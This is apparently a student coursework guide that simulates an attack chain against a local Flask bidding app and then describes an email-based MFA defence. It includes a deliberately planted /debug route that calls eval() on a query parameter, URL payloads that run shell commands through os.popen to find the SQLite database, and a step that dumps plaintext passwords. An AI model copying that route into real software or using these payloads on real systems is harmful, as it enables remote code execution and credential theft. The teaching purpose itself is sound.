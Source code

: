 # 🛠️ Simulated Attack Chain 1 Guide (Full Workflow)

This document provides a step-by-step simulation of a realistic attack chain that starts from a remote code execution (RCE) vulnerability exposed through a debug route and ends with leaking plaintext user passwords(or password hash value) stored in the SQLite database. This can be used as part of our Coursework 1: Simulate Attacks section.

## 🔗 Attack Flow Overview

```mermaid
graph TD
    A1[Access /debug endpoint with RCE] --> A2[List file system recursively]
    A2 --> A3[Identify instance/bidding.db]
    A3 --> A4[Use simulate_attack_password_leak.py to extract credentials]
```
## ✅ Prerequisites

Flask app running locally on http://127.0.0.1:5000

A debug route enabled in app.py (for testing only!):

@app.route('/debug')
def debug():
    from flask import request
    q = request.args.get('q')
    return str(eval(q))

## 🧨 Step-by-Step Attack Simulation

### 🔍 Step 1: List server file system recursively

`http://127.0.0.1:5000/debug?q=__import__('os').popen('ls -R').read()`

This lists all folders and subfolders. Identify instance/ or other folders that may contain .db files.
![alt text](image-1.png)

### 🔍 Step 2: Search for .db files

`http://127.0.0.1:5000/debug?q=__import__('os').popen("find . -name '*.db'").read()`

Expected output:

`./instance/bidding.db`
![alt text](image.png)

### 🧪 Step 3: Run the leak script to extract plaintext passwords
Update DB_PATH in simulate_attack_password_leak.py with `instance/bidding.db`
run:
```
python simulate_attack_password_leak.py
```
You will see all usernames, emails, and plaintext passwords (because our system currently stores them insecurely).
![alt text](image-2.png)


# Corresponding Secure Policy
To mitigate the risk of credential theft and unauthorized login—especially when the attacker extracts username-password pairs from a leaked database—we implemented a multi-factor authentication (MFA) mechanism that requires users to verify a one-time code sent to their email after successfully entering their password.

This defense is particularly effective against:

- Database leakage (as simulated in the attack)
- Password reuse across platforms
- Credential stuffing from previously leaked data

![alt text](image-3.png)
![alt text](image-4.png)
✨ Key Features of MFA Design

### ✨ Key Features of MFA Design

| Component            | Description                                                              |
|----------------------|---------------------------------------------------------------------------|
| **Verification Method** | Email-based 6-digit code (one-time use)                                  |
| **Trigger Point**        | After username/password verification, before completing login             |
| **Storage**              | Code is stored temporarily in Flask `session`                             |
| **Expiration**           | Codes are valid for one session or approximately 3 minutes               |
| **Mail Sender**          | SMTP via Flask-Mail (e.g., using QQ or Gmail SMTP)                       |
